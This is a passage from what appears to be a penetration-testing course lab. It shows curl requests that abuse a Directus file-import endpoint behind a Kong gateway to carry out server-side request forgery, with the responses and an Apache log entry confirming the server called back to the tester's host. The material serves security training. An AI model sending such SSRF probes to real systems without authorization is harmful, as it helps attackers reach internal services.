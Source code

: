 ```
kali@kali:~$ curl -i -X POST -H "Content-Type: application/json" -d '{"url":"http://192.168.118.3/ssrftest"}' http://apigateway:8000/files/import
HTTP/1.1 500 Internal Server Error
Content-Type: application/json; charset=utf-8
Content-Length: 108
Connection: keep-alive
X-Powered-By: Directus
Vary: Origin
Access-Control-Allow-Credentials: true
Access-Control-Expose-Headers: Content-Range
ETag: W/"6c-qz7bVW5hKPsQy2fT0mRPx8X4tuc"
Date: Thu, 25 Feb 2021 16:18:24 GMT
X-Kong-Upstream-Latency: 118
X-Kong-Proxy-Latency: 1
Via: kong/2.2.1

{"errors":[{"message":"Request failed with status code 404","extensions":{"code":"INTERNAL_SERVER_ERROR"}}]}
```

> Listing 17 - Attempting an SSRF exploit

We receive an HTTP 500 response with a message of "Request failed with status code 404". Let's check our Apache log for any requests.

```
kali@kali:~$ sudo tail /var/log/apache2/access.log
192.168.120.135 - - [25/Feb/2021:11:18:24 -0500] "GET /ssrftest HTTP/1.1" 404 455 "-" "axios/0.21.1"
```

> Listing 18 - Verifying the SSRF worked in our Apache log file

Excellent. This backend service is vulnerable to SSRF. The user agent on the request is _Axios_,[1](https://portal.offsec.com/courses/web-300-687/learning/server-side-request-forgery-32493/wrapping-up-32524/wrapping-up-32531#fn-local_id_416-1) an HTTP client for Node.js. Let's add a file named ssrftest to our Apache web root so that the server can access it and then resend the request with curl.

```
kali@kali:~$ curl -i -X POST -H "Content-Type: application/json" -d '{"url":"http://192.168.118.3/ssrftest"}' http://apigateway:8000/files/import
HTTP/1.1 403 Forbidden
Content-Type: application/json; charset=utf-8
Content-Length: 102
Connection: keep-alive
X-Powered-By: Directus
Vary: Origin
Access-Control-Allow-Credentials: true
Access-Control-Expose-Headers: Content-Range
ETag: W/"66-OPr7zxcJy7+HqVGdrFe1XpeEIao"
Date: Thu, 25 Feb 2021 16:22:52 GMT
X-Kong-Upstream-Latency: 117
X-Kong-Proxy-Latency: 0
Via: kong/2.2.1

{"errors":[{"message":"You don't have permission to access this.","extensions":{"code":"FORBIDDEN"}}]}
```
